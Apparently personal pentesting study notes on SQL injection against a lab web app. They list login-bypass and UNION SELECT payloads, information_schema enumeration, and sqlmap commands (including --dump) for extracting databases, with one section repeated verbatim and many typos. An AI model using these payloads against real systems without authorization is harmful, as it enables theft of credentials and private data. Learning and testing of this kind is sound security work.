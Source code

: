 log into the app user creds posted
	send the Post request that get accepted as correct credentials to repeater
once in repeater try the common injection to see if you get a correct response
	- jeremy' or 1=1#
	- jeremy" or 1=1#

The payload needs to be exactly correct to work
	this is where we can bring in another tool to help
Sqlmap 
	sqlmap -r <txt file>
nothing looks exploitable

look around the application for something else
what is the application doing and how is it doing it
- The Webpage is trying to pull data from somewhere to display it on our screen or go start a process
- depending on the datavase, that could be SQL we can inject code into the applicaion
    - modifying sql commands to pull data from teh databases we should not be able to see
        - all users, user info, passwords of other users, etc
- How does it work?
- what are the developers trying to accomplish?

what to try

- try some quotes, multiple quotes, special characters to see how it works
```
'OR 1 OR'
Jermey’ or jermey” or jermey#
jeremy’ or 1=1#
```
 - if you get results back - indication of SQL injection

Union

grab data from other table that may not be provided
```
jermey union select null, null, null#
```
use the “null” to see how many tables you can get back
```
jeremy’ union select null,null,null,table_name from informiation_schema.tables#
```

can use <user>’ union select null,null,version()#

log into the app user creds posted send the Post request that get accepted as correct credentials to repeater once in repeater try the common injection to see if you get a correct response
```
jeremy' or 1=1#
jeremy" or 1=1#
```
The payload needs to be exactly correct to work this is where we can bring in another tool to help Sqlmap sqlmap -r <txt file> nothing looks exploitable

look around the application for something else what is the application doing and how is it doing it

testing the session parameter to see if it is vulnerable to injection

Using intruder to guess the first character of the password
- Take the get request and copy and paste it into a txt file to put into sqlmap

```
sqlmap -r req.txt —level=2
##(need level too for session tokens)
```


That will give us the code we can use on the report or to plug into burp
- we can then use —dump to dump the database using that parameter
- You can also use -T for the exact table name as shown her



See additional notes with screenshots
https://www.notion.so/SQL-injection-72eb1ee0a3494cb69a2eea492951d403?pvs=4
